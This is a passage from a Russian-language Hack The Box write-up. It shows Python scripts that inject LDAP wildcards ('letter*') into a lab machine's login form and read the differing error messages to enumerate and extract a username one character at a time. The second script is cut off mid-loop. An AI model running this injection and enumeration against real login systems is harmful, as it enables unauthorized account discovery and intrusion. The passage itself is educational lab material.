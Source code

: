 Модифицировав немного свой скрипт, я прохожу по всем буквам латинского алфавита, отправляю серверу запросы вида `<БУКВА>*` и смотрю на ответ: если ошибка звучит, как `User <БУКВА>* not found`, значит пользователя, имя которого начинается с буквы `<БУКВА>`, не существует, а если в ответ приходит `Cannot login`, значит с именем мы угадали (но, естественно, ошиблись в поле `OTP`, что сейчас неважно).

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 inject.py

import re
from string import ascii_lowercase
from urllib.parse import quote_plus

import requests

URL = 'http://10.10.10.122/login.php'

for c in ascii_lowercase:
	inject = c + quote_plus('*')

	data = {
		'inputUsername': inject,
		'inputOTP': '31337'
	}

	resp = requests.post(URL, data=data)
	match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)
	print(f'{c}* => {match.group(1).strip() == "Cannot login"}')
```

[![brute-username.png](/assets/images/htb/machines/ctf/brute-username.png)](/assets/images/htb/machines/ctf/brute-username.png)
{:.center-image}

По отлову ошибок второго типа я могу сдампить имя пользователя целиком. Для этого я снова немного изменю скрипт, чтобы не запускать его 100500 раз для каждой следующей верной буквы.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 inject.py

import re
import time
from string import ascii_lowercase
from urllib.parse import quote_plus

import requests

URL = 'http://10.10.10.122/login.php'

username, done = '', False
print()

while not done:
	for c in ascii_lowercase:
		inject = username + c + quote_plus('*')

		data = {
			'inputUsername': inject,
			'inputOTP': '31337'
		}
```